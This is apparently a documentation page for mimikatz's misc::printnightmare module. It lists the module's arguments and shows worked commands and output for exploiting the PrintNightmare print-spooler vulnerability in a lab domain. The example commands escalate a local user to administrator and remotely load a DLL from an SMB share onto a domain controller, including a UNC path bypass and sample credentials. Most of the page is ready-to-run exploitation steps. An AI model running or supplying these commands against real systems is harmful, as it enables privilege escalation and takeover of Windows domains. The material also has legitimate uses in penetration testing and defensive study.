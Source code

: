 # printnightmare

`misc::printnightmare` can be used to exploit the [PrintNightMare](https://adamsvoboda.net/breaking-down-printnightmare-cve-2021-1675/) vulnerability in both \[[MS-RPRN RpcAddPrinterDriverEx](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b)] and \[[MS-PAR AddPrinterDriverEx](https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinterdriverex)]. The bug was discovered by Zhiniang Peng ([@edwardzpeng](https://twitter.com/edwardzpeng?lang=en)) & Xuefeng Li ([@lxf02942370](https://twitter.com/lxf02942370?lang=en)). The MS-PAR function was discovered by [cube0x0](https://twitter.com/cube0x0). It has the following command line arguments:

* `/server`: the target server or workstation to exploit
* `/x64` or `/win64`: the target server or workstation is 64 bit
* `/x86` or `/win32`: the target server or workstation is 32 bit
* `/library`: the DLL to use during exploitation
* `/authuser`: the username to use during exploitation
* `/authdomain`: the active directory domain
* `/authpassword`: the password of the user
* `/clean`: clean-up the operation

The following example demonstrates local privilege escalation through printnightmare. As can be seen, the `test` user is not part of the local administrators group on the _**Win10.hacklab.local**_ machine:

```
PS C:\Users\m3g9tr0n> net user

User accounts for \\WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
test                     vs2022                   WDAGUtilityAccount
The command completed successfully.

PS C:\Users\m3g9tr0n> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
hacklab\Domain Admins
hacklab\m3g9tr0n
vs2022
The command completed successfully.
```

After successful exploitation of printnightmare:

```
mimikatz # misc::printnightmare /library:C:\Users\Public\DLL.dll
[ms-rprn/ncalrpc] local
> RpcGetPrinterDriverDirectory: C:\Windows\system32\spool\DRIVERS\x64
| mimikatz-{55911f3b-474e-4b31-bb55-a2a6b4fc1e76}-legitprinter / Windows x64 - 0x00008018 - C:\Users\Public\DLL.dll
> RpcAddPrinterDriverEx: OK!
> RpcDeletePrinterDriverEx: OK!
```

The test user is now part of the local administrators group:

```
PS C:\Users\m3g9tr0n> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
hacklab\Domain Admins
hacklab\m3g9tr0n
test
vs2022
The command completed successfully.
```

For remote exploitation, the following can be used:

```
mimikatz # misc::printnightmare /server:dc.hacklab.local /library:\\win10.hacklab.local\smb\x64\mimilib.dll /authuser:optimus /authpassword:Super_SecretPass1! /authdomain:hacklab.local
```

With the [UNC path bypass](https://twitter.com/gentilkiwi/status/1412771368534528001?s=20):

```
mimikatz # misc::printnightmare /server:dc.hacklab.local /library:\??\UNC\win10.hacklab.local\smb\x64\mimilib.dll /authuser:optimus /authpassword:Super_SecretPass1! /authdomain:hacklab.local
```
